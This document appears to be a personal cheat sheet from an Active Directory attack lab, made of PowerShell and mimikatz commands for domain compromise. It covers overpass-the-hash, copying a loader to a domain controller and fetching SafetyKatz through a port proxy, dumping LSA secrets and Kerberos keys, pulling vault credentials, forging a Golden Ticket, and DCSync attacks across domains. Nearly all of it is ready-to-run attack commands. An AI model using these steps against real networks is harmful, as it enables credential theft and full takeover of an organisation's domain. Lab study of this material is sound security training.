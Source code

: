 
### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Extract Credentials**
Copy the loader on the dc and use the port forwarding technique to use mimikatz and extract all creds
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```
```powershell
winrs -r:dcorp-dc cmd
```
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.115
```
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```
```mimikatz
lsadump::lsa /patch
```

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
to check
```powershell
klist
```
### **Extract from credential vault**
```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### **Using the secrets of krbtgt account, create a Golden ticket**
Just use BetterSafetyKatz
```powershell
> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<NOME DOMINIO> /sid:<SID DC(lsa dump safetykatz> /aes256:<AES KRBTGT> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

### **execute the DCSync attack to pull hashes of the krbtgt user**
Now use safetykatz to extract the hash of any user
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
![[Pasted image 20231025125418.png]]
### **DCSync attack to another domain using ktbTGT user**
```cmd
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<TARGET DOMAIN>" "exit"
```
